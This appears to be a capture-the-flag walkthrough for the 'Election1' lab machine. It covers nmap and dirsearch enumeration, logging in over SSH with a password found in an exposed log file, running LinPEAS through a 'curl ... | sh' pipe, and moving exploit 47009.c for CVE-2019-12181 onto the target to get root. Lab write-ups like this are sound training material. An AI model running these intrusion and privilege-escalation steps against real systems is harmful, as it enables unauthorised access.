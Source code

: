 # Election1 --- PG Play

### Scan
First I conducted the general scan with `nmap`:
```
targ3t=$targ3t
nmap -sT $targ3t -oG general.scan
```
It revealed two open ports `22` for ssh and `80` for http. I started with enumerating SSH:
```
nmap -sT $targ3t --script=ssh* -p 22 -oG ssh.scan
```
SSH scan didn't return any indication of a vulnerability on the surface. I scanned http after:
```
dirsearch -u http://$targ3t:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
This returned an `/election` path on our http. When we navigate to it, it's a webpage about election and there's a candidate registered named **Love**. There is also an input for a voter's code to vote. 

I then ran another `dirsearch` against `/election` path to see what's there:
```
dirsearch -u http://$targ3t:80/election -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
While the scan was still running I checked the results. 

- `/election/media` has some image files in it, that are used in the website. 
- `/election/themes` also holds files used for website's frontend. 
- `/election/data` is empty.
- `/election/admin` is an admin panel page expecting an input of admin's number. As I found out it has limited attempts to fill in the code. 
- `/election/lib` has a `homeAPI.php` empty file in it.
- `/election/data` has internationalization and localization data for the website's interface.
- `/election/js` has a localization script for the website.

Instead of waiting for it to complete I decided it would be more practical to run another `dirsearch` scan against one path that has anything in it --- `/election/admin`:

```
dirsearch -u http://$targ3t:80/election/admin -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
This again returned a lot of files related to website's functioning, like images and markup files, but it also returned a `/election/admin/logs` path, which holds a file `system.log` in it, let's check it out: 
```
curl http://$targ3t/election/admin/logs/system.log
```
It seems we have a user `love` with assigned password `P@$$w0rd@123`. Let's try to use it for SSH:
```
ssh love@$targ3t -p 22
```
And we're in! Let's find out where we are:
```
uname -a
```
Seems to be a Ubuntu Linux, let's use LinPEAS to try and escalate privileges:
```
cd $(mktemp -d)
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh > linpeas.scan
```
When the scan is done, check what we can find in it:
```
cat linpeas.scan | grep CVE
```
One of the interesting CVEs I could find was a `Serv-U` FTP Server's vulnerability `CVE-2019-12181`. Let's find an exploit for it:
```
searchsploit --cve CVE-2019-12181
```
Let's focus on the c file it returned for linux and transfer it to our target system:
```
cp /usr/share/exploitdb/exploits/linux/local/47009.c 47009.c
python -m http.server
```
And on the target system type:
```
wget http://<Your IP Address>:<Py Server Port>/47009.c
```
It's downloaded in the temporary directory we're in. Let's compile it:
```
gcc 47009.c -o expl
./expl
```
This returns a root shell as `whoami` command returns `root`.Let's list everything in user `love`'s home directory:
```
ls /home/love
```
Let's see what's in the `local.txt`
```
cat /home/love/local.txt
```
There's our first flag. Now let's see what's in the `/root`:
```
ls /root
```
There's a `proof.txt` file. Let's see what's in it:
```
cat /root/proof.txt
```
There goes our second flag as we successfully pwned the machine!
